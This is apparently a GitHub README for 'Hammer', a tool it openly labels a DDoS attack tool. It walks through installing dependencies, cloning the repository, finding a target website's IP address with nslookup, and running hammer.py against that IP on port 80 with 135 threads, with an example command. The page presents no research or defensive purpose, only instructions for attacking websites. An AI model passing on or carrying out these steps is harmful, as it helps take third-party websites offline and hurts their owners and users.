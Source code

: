 
#### DDos Attack Tool


### Installation


	apt update
	apt upgrade
	apt install python
	apt install git
	apt install dnsutils
	git clone https://github.com/Mr-R013X-404/Hammer
	cd Hammer

##### Hammer
Hammer need the Name Server of a website which you want to attack...

To get the Name Server...just type

$ nslookup example.com 

Note the IP Address of that Website


### Usage:
>	$ python3 hammer.py -s [ip Address] -p 80 -t 135

>	example:

>	$ python3 hammer.py -s 123.45.67.89 -p 80 -t 135




<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://www.facebook.com/Mr.R013X.404"><img title="Facebook" src="https://img.shields.io/badge/Facebook-green?style=for-the-badge&logo=facebook"></a>
<a href="https://t.me/MR_R013X_404"><img title="Telegram" src="https://img.shields.io/badge/Telegram-blue?style=for-the-badge&logo=telegram"></a>

